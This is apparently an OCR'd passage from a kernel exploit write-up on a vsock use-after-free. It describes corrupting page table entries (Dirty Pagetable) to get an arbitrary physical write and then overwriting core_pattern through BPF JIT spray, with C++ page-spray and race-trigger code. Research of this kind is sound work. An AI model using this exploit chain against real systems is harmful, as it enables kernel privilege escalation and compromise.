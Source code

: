 ### **Exploit Mechanism**  
To exploit the target PTE:  
1. A **page fault** is triggered at the location corresponding to the `peer_buf_alloc` field.  
2. The kernel allocates a PTE specifically for the faulted address.  
3. Using the **UAF write**, the physical address in the PTE can be modified arbitrarily.  

By manipulating the physical address in the PTE, the target page can be redirected to achieve code execution or kernel memory manipulation.  

```cpp
// spray p4d (ready for spray page table)
_pin_to_cpu(MAIN_CPU);
for(int i=0; i < N_PAGESPRAY; i++)
    *(uint64_t *)(page_spray[i]) = (i << 16);
printf("p4d spray fin\n");

sleep(1);

struct itimerspec new = {.it_value.tv_nsec = 1500000};
timerfd_settime(tfd, TFD_TIMER_CANCEL_ON_SET, &new, NULL);

connect_addr.svm_cid = 0;
connect(socket_b, (struct sockaddr *)&connect_addr, sizeof(connect_addr));
listen(socket_b, 0);

// spray pte (only peer_buf_alloc's offset)
for(int i=0; i < N_PAGESPRAY; i++)
    for(int j=MMAP_SIZE/0x2000; j<MMAP_SIZE/0x1000; j += 0x60/8)
        *(uint64_t *)(page_spray[i] + 0x3000 + 0x1000*j) = (i << 16) + j;
printf("pte spray fin\n");

// after execution, worker will overwrite pte
```

## 3. AAW w/ Dirty Pagetable
If a portion of the PTE can be modified as described, it becomes possible to write arbitrary values to specific **physical addresses** from user space. This concept is well explained in [this blog post](https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html).

However, unlike the method described in the referenced blog, the **`flip` technique** (incrementally adjusting physical addresses to discover the target address) cannot be used here to determine the desired physical address.  

This constraint necessitates a different approach, such as leveraging **BPF JIT Spray** or another large-scale allocation strategy to approximate and control the physical memory location for exploitation.

### **4. Modify `core_pattern` with BPF JIT Spray**  
By leveraging the ability to access arbitrary physical addresses, the next step involves overcoming the constraints of having **no physical address leaks** and only a **4-byte arbitrary write (AAW)** capability. To address these limitations, **BPF JIT Spray** is employed.
